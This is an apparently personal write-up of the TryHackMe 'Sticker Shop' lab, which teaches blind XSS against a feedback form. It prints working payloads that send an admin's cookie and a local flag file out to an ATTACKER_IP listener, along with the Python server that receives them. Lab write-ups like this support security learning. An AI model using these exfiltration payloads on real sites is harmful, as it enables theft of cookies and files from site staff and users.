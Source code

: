<br>

# The Sticker Shop - TryHackMe Writeup

## Challenge Description

**Task 1**  
The sticker shop is finally online!  
Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

**Objective**:  
Can you read the flag at `http://MACHINE_IP:8080/flag.txt`?
---

## Table of Contents
- [Walkthrough](#walkthrough)
  - [Initial Exploration](#initial-exploration)
  - [The Feedback Page](#the-feedback-page)
  - [Crafting the Payloads](#crafting-the-payloads)
    - [Initial Test Payload](#initial-test-payload)
    - [Cookie Payload (Unsuccessful)](#cookie-payload-unsuccessful)
    - [Direct File Access (Successful)](#direct-file-access-successful)
- [Decode the Flag](#decode-the-flag)

---


## Walkthrough {#walkthrough}

### Initial Exploration {#initial-exploration}
When I first read the challenge prompt, a few things caught my attention. The mention of hosting everything on the same computer sounded like a major vulnerability waiting to happen, especially if the admin reviews feedback on the same browser. The **hint** in the description felt like a nudge toward something admin-side, like a **Blind XSS**.

1. I visited `http://MACHINE_IP:8080/flag.txt` directly, hoping the flag was accessible.  
   - **Result**: I was greeted with a **401 Unauthorized** error. So, no luck here.

2. I went to the homepage at `http://MACHINE_IP:8080/`.  
   - This was a basic website, nothing fancy. But from here, I navigated to the **Feedback page**.

---

### The Feedback Page {#the-feedback-page}
The feedback page had a simple textbox for entering comments and a message below it:

> "Thanks for your feedback! It will be evaluated shortly by our staff."

At this point, I had a pretty strong suspicion that this was a **Blind XSS** challenge. The wording in both the prompt and the feedback page hinted at admin-side activity:  
- "evaluated shortly"  
- "feedback is important"

I decided to test for Blind XSS by injecting a basic payload into the textbox.

---

### Crafting the Payloads {#crafting-the-payloads}

#### Initial Test Payload {#initial-test-payload}
To confirm whether XSS was possible, I used a simple test payload:

```html
<img src="http://ATTACKER_IP:8000">
```
In order to actually receive this, I first had to start a python simple http server on my machine

```bash
python3 -m http.server 8000
```
soon after I sent the XSS payload requests started floading my terminal:
```bash
MACHINE_IP - - [29/Nov/2024 17:42:25] "GET / HTTP/1.1" 200 -
```
This confirmed it, the machine **is vulnerable to Blind XSS**. Now what was left to do was to get the admin bot to do something useful

#### Cookie Payload (unsuccesfull) {#cookie-payload-unsuccessful}
The first trick on my book was to steal the admin's cookie to gain access to the flag.txt file, to do that I used the following payload:

```html
<img src="invalid-image" onerror="fetch('http://ATTACKER_IP:8000/cookies?cookie=' + document.cookie)">
```
Unfortunately, this did not yield anything usefull, the website probably doesn't have cookies or my payload wan't able to capture it.

```bash
MACHINE_IP - - [29/Nov/2024 17:45:25] code 404, message File not found
MACHINE_IP - - [29/Nov/2024 17:45:25] "GET /cookies?cookie= HTTP/1.1" 404 -
```
#### Direct File Access (succesfull!) {#direct-file-access-successful}
The next thing was to see if I could get the admin to go to the flag.txt file and send its contents back to my http server. To do this a simplehttp does not suffice since it does not support POST requests

Using the following code, I made a better http server to view POST requests too:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')
        print(f"POST data received: {post_data}")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

    def do_GET(self):
        parsed_path = urllib.parse.urlparse(self.path)
        query = urllib.parse.parse_qs(parsed_path.query)
        print(f"GET request received: {query}")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

server = HTTPServer(('0.0.0.0', 8000), RequestHandler)
print("Server started on port 8000...")
server.serve_forever()
```
Now all I needed was a new payload, after a lot of tries (and espressos) I finally found a working one:

```html
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(flag => fetch('http://ATTACKER_IP:8000/flag',{method:'POST',body:btoa(flag),mode:'no-cors'})).catch(e => fetch('http://ATTACKER_IP:8000/error',{method:'POST',body:btoa(e.message),mode:'no-cors'}));">
```
Be sure to change ```ATTACKER_IP``` with your openvpn ip, as per the ip fetched, you might be wondering why it is a 127.0.0.1 ip. I found out using other payloads that the "admin" doesn't use the openvpn ip we see (why would it if the file is on his computer?), instead it has a local one, which works way better.

---
### Decode the Flag {#decode-the-flag}
If everything went right, you received a base64 encoded flag, to decode it use a tool like [cyberchef](https://gchq.github.io/CyberChef/).

---

## Final Thoughts

This challenge was like making a perfect espresso: patience, precision, and the right blend of ideas. Blind XSS taught me to adapt to localhost quirks and think creatively about admin-side processing. 

Grazie for reading, and buona fortuna on your next hack! 

